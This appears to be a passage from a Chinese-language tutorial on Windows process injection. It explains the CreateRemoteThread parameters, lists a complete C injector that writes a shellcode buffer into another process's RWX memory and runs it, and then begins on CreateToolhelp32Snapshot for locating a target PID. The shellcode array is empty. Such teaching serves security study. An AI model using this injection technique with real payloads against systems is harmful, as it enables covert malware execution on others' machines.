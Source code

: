 -   hProcess：将在其中创建线程的进程的句柄
-   lpThreadAttributes：一个指向 [**SECURITY\_ATTRIBUTES**](https://baike.baidu.com/item/SECURITY_ATTRIBUTES) 结构的指针, 该结构指定了线程的安全属性.
-   dwStackSize：[线程](https://baike.baidu.com/item/%E7%BA%BF%E7%A8%8B/103101)栈初始大小,以字节为单位,如果该值设为0,那么使用系统默认大小.
-   lpStartAddress：在远程进程的[地址空间](https://baike.baidu.com/item/%E5%9C%B0%E5%9D%80%E7%A9%BA%E9%97%B4/1423980)中,该线程的线程函数的起始地址.
-   lpParameter：指向要传递给线程函数的变量的指针。
-   dwCreationFlags：线程的创建标志.
-   lpThreadId：指向所创建线程ID的指针，如果该参数为空，则不返回线程标识符

```php
remoteThread = CreateRemoteThread(processHandle, NULL, 0,
(LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
```

**接下来是完整的代码**

```php
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = {};

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  //打开进程
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode,
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  //申请内存
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
  //写入内存
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, 
  (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
  //创建远程线程
    CloseHandle(processHandle);
    return 0;
}
```

**看到这里相信各位也想到了一个问题,如果我想要远程注入notepad,如何获取到他的PID呢?**

**那就得使用到我们之前所说的CreateToolhelp32Snapshot**

**我们接着学习三个windowsAPI**

**1、CreateToolhelp32Snapshot：可以获取系统中正在运行的进程信息，线程信息**

```php
HANDLE CreateToolhelp32Snapshot(
  [in] DWORD dwFlags,
  [in] DWORD th32ProcessID
);
```
